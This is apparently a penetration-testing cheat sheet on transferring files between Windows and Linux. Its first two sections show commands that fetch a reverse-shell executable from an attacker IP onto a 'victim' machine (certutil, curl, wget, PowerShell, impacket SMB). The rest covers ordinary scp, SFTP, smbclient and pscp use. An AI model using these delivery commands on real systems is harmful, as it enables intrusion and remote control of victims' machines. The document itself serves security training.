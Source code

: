 
# Ways to Transfer Files From Windows to Linux or Vice versa

* ### 1. Transfer file from attacker machine to victim after initial connection

* ### 2. Transfer file through SMBv1 Protocole.

* ### 3. To transfer a file from a Windows machine to a Linux machine using SMB (Server Message Block), you can use the `smbclient` command on the Linux machine.

* ### 4. Secure Copy (scp)

* ### 5. SFTP (Secure File Transfer Protocol)

* ### 6. PuTTY secure copy client (pscp)

----------------------------------------------------------------------

## 1. Transfer file from attacker machine to victim after initial connection

### Python Server

#### On Attacker Machine

`$python -m SimpleHTTPServer 9000` 

`or`

`python3 -m http.server 80`

#### On Victim Machine

`certutil -urlcache -f http://10.17.11.201/reverse_4444.exe shell.exe`

or

`curl -o shell.exe http://10.17.11.201/reverse_4444.exe`

or 

`wget http://10.17.11.201/reverse_4444.exe -O shell.exe`

or Using powershell

`Invoke-WebRequest -Uri http://10.17.11.201/reverse_4444.exe -OutFile shell.exe`

-----------------------------------------------------------------------

## 2. Transfer file through SMBv1 Protocole.

#### On Windows to start the SMBv1 service

`Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All` In PowerShell with administrator privileges.

#### On Kali to start the SMBv1 service

[python3-impacket](https://github.com/fortra/impacket) repo.

`sudo python3 /opt/impacket/examples/smbserver.py kali .`

* `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe` from windows to linux(Attacker_machine).

* `copy C:\PrivEsc\reverse.exe \\10.17.11.201\kali\reverse.exe` from linux to windows

---------------------------------------------------------------------

## 3. To transfer a file from a Windows machine to a Linux machine using SMB (Server Message Block), you can use the `smbclient` command on the Linux machine.

* Make sure that the Linux machine has the smbclient package installed.

`sudo apt-get install smbclient`

* Share a directory on the Windows machine that you want to transfer the file to. Make sure the directory is accessible by the user account you will use to connect to it via SMB.

You can create a shared directory on a Windows machine using the following steps:

1. Right-click on the folder that you want to share and select "Properties" from the context menu.

2. In the Properties window, click on the "Sharing" tab.

3. Click on the "Advanced Sharing" button.

4. Check the box next to "Share this folder" to enable sharing.

5. Enter a name for the share in the "Share name" field. This will be the name that you use to access the share from other machines on the network.

6. You can also set permissions for the share by clicking on the "Permissions" button. Here you can add or remove users and groups and set the level of access they have to the share.

7. Click "OK" to close the "Permissions" window.

8. Click "OK" again to close the "Advanced Sharing" window.

9. Finally, click "Close" to close the Properties window.

* On the Linux machine

`smbclient //WINDOWS_HOSTNAME/SHARE_NAME -U USERNAME%PASSWORD`

`smb: \> put /path/to/example.txt` : to transfer the file from the Linux machine to the Windows machine

`smb: \> get myfile.txt` : to download a file from the share

`smb: \> exit` : to close the connection

-----------------------------------------------------------------------

## 4. Secure Copy (scp)

SCP is a command-line tool, and is available on most Unix-based systems, as well as Windows systems with the installation of software such as PuTTY or WinSCP.

`scp /path/to/local/file.txt user@remotehost:/path/to/destination/`

-----------------------------------------------------------------------

## 5. SFTP (Secure File Transfer Protocol)

An SSH server must be running on the Linux machine before you start. You should also ensure you have installed an FTP app on Windows, like [FileZilla](https://filezilla-project.org/download.php), which has SFTP support.

`sudo apt list openssh-server` : to check ssh service is present

`sudo apt-get install openssh-server` : to install the ssh service

#### To regenerate the ssh key :

`mkdir /etc/ssh/default-keys`

`mv /etc/ssh/ssh_host_* /etc/ssh/default-keys/` : to save the default key

`dpkg-reconfigure openssh-server` : regenerating the keys

#### Now start the ssh service

`sudo systemctl start sshd` : to start the  ssh service

`sudo systemctl status sshd` : to check the status

`sudo systemctl enable sshd` : to enable parment start ssh service after reboot

### FileZilla :

To use this method, run FileZilla, then:

1. Open File > Site Manager
2. Create a New Site
3. Set the Protocol to SFTP
4. Add the target IP address in Host
5. Specify a username and password
6. Set the Logon Type to Normal
7. Click Connect when ready

## 1.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

You can then use the FTP app to move files from Windows to Linux and back using drag and drop.

### Connect to SFTP server

`sftp user@<Machine_IP>`

`put /path/to/local/file /path/to/remote/file` : transfer local to remote

`get /path/to/remote/file /path/to/local/file` : remote to local machine

-------------------------------------------------------

## 6. [PuTTY secure copy client](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) (pscp)

- `pscp` is a command-line tool for transferring files securely between Windows and Linux computers using the SSH protocol. It is part of the `PuTTY` suite of tools, which also includes PuTTY, a SSH client for Windows.

- To use `pscp`, you will need to have a SSH server running on the Linux computer that you want to transfer files to or from. You will also need to have the `pscp` tool installed on your Windows computer.

#### To transfer a file from the Linux computer to the Windows computer:

`pscp username@<linux_IP>:/path/to/file.txt C:\path\to\destination\file.txt`

-------------------------------------------------------


















## Screenshots

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

